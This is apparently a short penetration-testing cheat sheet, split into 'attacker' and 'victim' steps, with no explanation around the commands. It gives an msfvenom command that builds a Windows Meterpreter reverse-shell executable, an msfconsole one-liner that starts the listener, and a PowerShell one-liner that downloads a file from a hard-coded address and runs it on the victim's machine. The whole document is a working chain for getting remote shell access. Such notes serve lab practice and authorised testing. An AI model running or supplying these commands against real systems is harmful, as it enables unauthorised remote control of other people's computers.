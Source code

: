 # On attacker

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > payload1.exe`

`msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'`

############################

# On victim

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.100.5:80/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"`
